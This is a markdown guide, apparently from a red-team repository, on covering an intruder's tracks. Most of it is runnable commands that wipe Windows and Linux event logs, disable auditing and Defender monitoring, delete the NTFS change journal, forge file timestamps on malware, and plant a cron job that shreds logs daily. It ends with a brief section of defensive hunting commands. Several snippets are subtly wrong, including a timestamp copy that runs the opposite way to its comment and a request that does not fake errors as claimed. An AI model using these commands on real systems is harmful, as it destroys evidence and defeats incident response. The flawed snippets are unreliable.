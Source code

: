 # Paw prints in the wind: Disappearing without a trace

*"The best operations never appear in the SIEM—only in the aftermath."*

## Log obliteration techniques

### Windows Systems

#### Event log manipulation

```powershell
# Nuclear Option (Clears all logs)
wevtutil el | Foreach-Object {wevtutil cl "$_"}

# Surgical Strikes (Security log only)
Clear-EventLog -LogName Security
```

#### Audit policy neutralization

```
:: Disable future logging
auditpol /clear /y
auditpol /set /category:"Object Access","Account Logon" /success:disable /failure:disable
```

#### USN Journal wiping (NTFS artefacts)

```powershell
fsutil usn deletejournal /D C:  # Destroys file change records
```

### Linux systems

```bash
# Multi-tool log sanitization
echo "" > /var/log/auth.log
journalctl --vacuum-time=1s  # Systemd logs
find /var/log -type f -exec shred -n 3 -u {} \;  # Physical destruction
```

## Timestomping & metadata warfare

### File Timestamp Forgery

```powershell
# Copy timestamps from legitimate system files (Windows)
(Get-Item legit.dll).LastWriteTime = (Get-Item malware.exe).LastWriteTime
```

```bash
# Linux timestamp laundering
touch -r /bin/bash ./malware.sh  # Inherits bash's timestamps
```

### $MFT manipulation (NTFS)

```
# Requires physical disk access
icacls C:\$MFT /grant Administrators:F  # Unlock MFT
python3 mft_editor.py --target C:\ --timedelta="-7d"  # Shift all timestamps
```

## Anti-forensic toolbox (2025 Edition)

| Tool	           | Purpose	                                | OpSec Risk                   |
|-----------------|-----------------------------------------|------------------------------|
| Slackercleaner	 | Multi-platform log wiping	Moderate      | (known IOCs)                 |
| Timestomp-NG	   | Nanosecond-precision timestamp forgery	 | Low                          |
| SysmonKiller	   | Disables Sysmon via driver unload	      | High (requires admin)        |
| MemPurge	       | Wipes RAM artefacts pre-reboot	         | Critical (must be last step) |

Chain tools with living-off-the-land binaries:

```powershell
# Disable Defender logging via LOLBin
Set-MpPreference -DisableRealtimeMonitoring $true -DisableIOAVProtection $true
```

## Real-World OpSec failure (2024 case study)

Operation "Midnight Sun" Failure Points:

* Left Prefetch files intact (C:\Windows\Prefetch\RMM.exe)
* Failed to clear Windows Error Reporting crashes (%ProgramData%\Microsoft\Windows\WER)
* RDP bitmap cache revealed attacker desktop (%LocalAppData%\Microsoft\Terminal Server Client\Cache)

Corrected 2025 Procedure:

```powershell
# Full artefact sterilization
Remove-Item -Path "$env:LOCALAPPDATA\Microsoft\Terminal Server Client\Cache\*" -Force
Cleanmgr /sagerun:6174  # Disk Cleanup silent mode
```

## Red team best practices

Pre-Operation:  Map all logging systems (SIEM, EDR, LAPS) and identify immutable logs (e.g., Azure Sentinel)

During Operation, use network-based log injection to corrupt SIEM feeds

```python
# Fake 404 errors to mask malicious traffic
requests.get("https://victim.com/login", headers={"X-Forwarded-For": "192.168.1.1"})
```

Post-Operation: Deploy counter-forensic sleepers:

```bash
# Linux cronjob to overwrite logs daily
(crontab -l 2>/dev/null; echo "0 3 * * * shred -n 1 /var/log/*.log") | crontab -
````

## Blue team countermeasures (Test traces)

```bash
# Hunt for timestamp anomalies (Linux)
find / -type f -newermt "2025-01-01" ! -newermt "2025-01-02" -exec ls -l {} \;

# Windows Event Log gaps
Get-WinEvent -LogName Security | Group-Object -Property Id | Where Count -lt 10
```

## 2025

In 2025, forensic teams hunt at the nanosecond level. Your timestomping should be measured in Planck time.

## Required tools

* [TimeSketch (For Testing Your Traces)](https://github.com/google/timesketch)

## Operational checklist

- ✅ Test all cleanup scripts in VM snapshots before deployment
- ✅ Identify immutable cloud logs (AWS CloudTrail, Azure Activity) early
- ✅ Leave false [flags](flag.md) as distraction
